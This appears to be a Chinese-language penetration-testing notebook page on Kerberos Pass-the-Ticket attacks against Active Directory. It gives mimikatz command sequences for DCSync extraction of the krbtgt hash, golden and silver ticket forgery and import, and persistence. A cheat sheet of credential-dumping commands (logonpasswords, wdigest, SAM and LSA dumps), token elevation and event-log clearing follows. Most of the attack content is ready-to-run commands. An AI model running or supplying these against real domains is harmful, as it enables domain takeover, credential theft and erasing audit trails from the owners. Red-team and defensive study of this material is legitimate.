 ```yaml
---
description: 适用于在获取目标域内最高权限后的权限维持 / 后渗透密码收集 / 基于Kerberos认证
---
```


# ✔️ 票据传递攻击 - Pass The Ticket

## 黄金票据传递攻击

### 先决条件

* 已获得了目标域内**krbtgt用户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 要伪造的域用户（高权限账户：域管理员）

### 工具

#### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/1 (24).png" alt=""><figcaption></figcaption></figure>

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取krbtgt账户的NTLM哈希值 (DCSync攻击常用)
lsadump::dcsync /domain:target.com /user:krbtgt
# 生成黄金票据
kerberos::golden /user:administrator /domain:target.com /sid:域SID /krbtgt:312343xxxxxxxxxxx345435565789 /id:500 /target:target.com /renewal:票据的有效时间 /ticket:golden_ticket.kirbi
# 导入
kerberos::ptt golden_ticket.kirbi
# 验证
kerberos::list
# 持久化：可将生成的票据保存下来，后续继续使用
```

{% hint style="info" %}
* 提取NTLM哈希——生成黄金票据——导入伪造的黄金票据——验证票据——持久化
* 黄金票据可访问全域资源
{% endhint %}

## 白银票据传递攻击

### 先决条件

* 已获得了目标域内**服务账户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 需要知道SPN
* 要伪造的某个特定的服务账户

### 工具

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取服务账户的NTLM哈希
lsadump::dcsync /domain:target.com /user:服务账户名
# 生成白银票据
kerberos::golden /domain:target.com /sid:域SID /target:server.target.com /service:http /rc4:服务账户哈希 /user:administrator /id:用户RID /ptt
# 验证
kerberos::list
# 使用白银票据，例如访问共享目录
\\server.target.com\sharedfolder
# 有条件的持久化：只要服务账户的哈希没改就可以
```

{% hint style="info" %}
* 提取NTLM哈希——生成白银票据——验证票据——有条件的持久化
* 白银票据在本地使用，不与DC交互，因此比黄金票据攻击要隐蔽
* 是针对特定服务的TGS的攻击
{% endhint %}

## 常用命令

### mimikatz.exe

```powershell
# 提升权限
privilege::debug
# 列出系统上的所有票据并提取
sekurlsa::tickets /export
# 列出当前用户的 Kerberos 票据（TGT 和 TGS）
sekurlsa::tickets
# 提取当前用户凭证
sekurlsa::logonpasswords
# 提取当前系统中的明文密码
sekurlsa::wdigest
# 提取本地SAM数据库中的NTLM哈希
lsadump::sam
# 提取当前登录的域用户和本地用户的凭证
lsadump::lsa /patch
lsadump::lsa /inject
# 列出当前用户的所有令牌
token::list
# 在令牌里发现有高权限的账户后，提升权限
token::elevate
# 清除日志
event::clear
# 清除内存中的票据
kerberos::purge
# 
```

### 其他

```bash
# 查域SID
whoami /user
whoami /groups
# 
```

{% hint style="info" %}
Kerberos协议是在位于**不受信任的网络中**的**受信任主机上**的**身份验证**协议，在域渗透的过程中主要是利用Kerberos票据来进行攻击，涉及黄金票据和白银票据传递，票据传递攻击本质上是冒充其他高权限用户。
{% endhint %}
